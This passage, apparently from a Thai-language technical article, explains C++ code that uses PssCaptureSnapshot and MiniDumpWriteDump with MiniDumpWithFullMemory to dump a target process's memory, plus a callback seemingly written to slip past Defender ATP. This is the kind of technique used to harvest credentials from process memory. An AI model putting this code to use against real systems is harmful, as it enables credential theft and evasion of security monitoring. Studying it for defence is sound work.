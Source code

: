 - พารามิเตอร์ `CreateOptions` ซึ่งในที่นี้คือ `FILE_SYNCHRONOUS_IO_NONALERT` เป็นหนึ่งในออปชั่นอื่นๆ ที่เกี่ยวข้องกับการสร้างไฟล์และเข้าถึงไฟล์ โดย `FILE_SYNCHRONOUS_IO_NONALERT` หมายถึงให้ดำเนินการใดๆ กับไฟล์ถูก sychronize และจัดการโดยระบบที่มีการทำ I/O queue เอาไว้
- ส่วน `NULL` ของ `EaBuffer` และ 0 ของ `EaLength` ใช้สำหรับระบุคุณลักษณะเพิ่มเติม (extended attributes) ให้กับไฟล์

โค้ดส่วนสุดท้ายด้านล่างจะแสดงให้เห็นถึงการเรียกใช้ฟังก์ชัน `MiniDumpWriteDump()` ในการเขียนข้อมูลจาก `snapshotHandle` ซึ่งเป็นผลมาจากการใช้ฟังก์ชัน `PssCaptureSnapshot()` ลงไปที่ `hDmpFile`

```cpp
BOOL Success = MiniDumpWriteDump(
  snapshotHandle, // hProcess
  dwTargetPID, // ProcessId
  hDmpFile, // hDmpFile
  MiniDumpWithFullMemory, // DumpType
  NULL, // ExceptionParam
  NULL, // UserStreamParam
  &CallbackInfo // CallbackParam
  );
if ((!Success))
{
  wprintf(L"	[!] Failed to create minidump, error code: %x\n", GetLastError());
}
else {
  wprintf(L"	[+] Dump succesful.\n");
}

ZwClose(hDmpFile);
ZwClose(hProcess);

return 0;
```

จุดที่น่าสนใจในการเรียกใช้ฟังก์ชัน `MiniDumpWriteDump()` คือพารามิเตอร์ `DumpType` ซึ่งมีการระบุ flag เอาไว้เป็น `MiniDumpWithFullMemory` ซึ่งหมายถึงการให้สร้าง minidump จากข้อมูลทุกส่วน ไม่ใช่เพียงแค่ส่วนโค้ดหรือส่วนข้อมูลปลีกย่อย

อีกจุดหนึ่งที่น่าสนใจคือหน้าที่ของพารามิเตอร์ `CallbackParam` ซึ่งในที่นี้คือ `CallbackInfo` หากเราดูที่เนื้อหาของโค้ดในฟังก์ชัน callback อย่าง `ATPMiniDumpWRiteDumpCallBack` ก็จะสามารถอธิบายได้ว่า `CallbackInfo` ถูกระบุเพื่อให้รับข้อมูลเพื่อเติมจากกระบวนการทำ minidump

```cpp
BOOL CALLBACK ATPMiniDumpWriteDumpCallback(
	__in     PVOID CallbackParam,
	__in     const PMINIDUMP_CALLBACK_INPUT CallbackInput,
	__inout  PMINIDUMP_CALLBACK_OUTPUT CallbackOutput
)
{
	switch (CallbackInput->CallbackType)
	{
	case 16: // IsProcessSnapshotCallback
		CallbackOutput->Status = S_FALSE;
		break;
	}
	return TRUE;
}
```
